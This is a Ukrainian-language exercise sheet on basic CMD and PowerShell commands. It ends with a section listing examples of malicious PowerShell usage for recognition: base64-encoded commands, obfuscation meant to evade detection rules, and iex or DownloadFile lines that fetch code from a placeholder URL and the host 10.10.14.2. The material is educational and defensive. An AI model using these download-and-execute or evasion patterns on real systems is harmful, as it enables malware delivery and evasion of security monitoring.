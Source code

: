 ### Виконайте завдання:
1. Основними командами є: cd, dir, cls, вони ж є однаковими для CMD та PowerShell. Спробуйте відкрити якусь папку через CMD та PowerShell. Звикніть просуватись по файловій системі через команди.
2. Запустіть Chrome через команду, спершу з помилкою, не використовуючи .\ перед exe-файлом - `C:\Program Files (x86)\Google\Chrome\Application\ .\chrome.exe`. Навчіться запускати програми через командну строку.
3. Запустити калькулятор, `calc`.
4. PowerShell використовує форму дія-сутність (Verb-Noun) для назви своїх командлетів. Наприклад, `Get-Command`.
5. `Get-ExecutionPolicy` - перевірити політику контролю виконання команд та скриптів.
6. `Set-ExecutionPolicy - ExecutionPolicy RemoteSigned`
7. `Get-Command` - переглянути всі доступні команди.
8. `Get-process` - переглянути запущені процеси
9. Фільтрування за ім'ям (taskmgr): `get-process -Name Taskmgr`
10. Фільтрування за ID: `get-process -Id <номер-процесу>`
11. Показати, що можна зробити з об'єктом - `Get-Member`
12. Фільтрування методів - `Get-Process | Get-Member -MemberType Method`
13. Використати метод kill() для процесу, спробувати знову знайти його за id чи іменем `(get-process -Id <id>).kill()`

Додаткова інформація: [Команди Powershell](https://learn.microsoft.com/en-us/powershell/scripting/powershell-commands?view=powershell-7.3)

## 7. Приклади шкідливих та підозрілих команд Powershell
1. Закодовані команди, містять в собі encoded, en, enc, та подібні параметри:
```
powershell.exe -encod VwByAGkAdABlAC0ASABvAHMAdAAgACIAdAB3AGUAZQB0ACwAIAB0AHcAZQBlAHQAIQAiAA==
```
2. Використання base64 для закодовування шкідливих команд:
```
Invoke-Expression -Command ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('VwByAGkAdABlAC0ASABvAHMAdAAgACIAdAB3AGUAZQB0ACwAIAB0AHcAZQBlAHQAIQAiAA==')))
```
3. Використання спеціальних символів (^, +, $ та %) щоб розбити команду на текстові блоки і оминати примітивні правила детектування:
```
& ([ScriptBlock]::Create("Write-Host '$("{0}{1}{2}{2}{0}" -f 't','w','e'), $([Char] 116)$([Char] 119)$("$(([Char] 0x65))" * 2)t'"))`
```
4. Використання параметрів -nop, -noni. Команда виконується без інтерактивного вікна.
5. Використання invoke-expression чи iex щоб запустити команди, що завантажуються з віддаленого ресурсу
```
powershell.exe -nop iex "\"Write-Host `\"$((New-Object Net.WebClient).DownloadString('https://user.github.com/repo/blabla/badcode.txt'))`\"\""
```
6. Завантаження файлу з віддаленого ресурсу з downloadfile:
```
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
```

[Більше інформації про шкідливе використання Powershell](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)
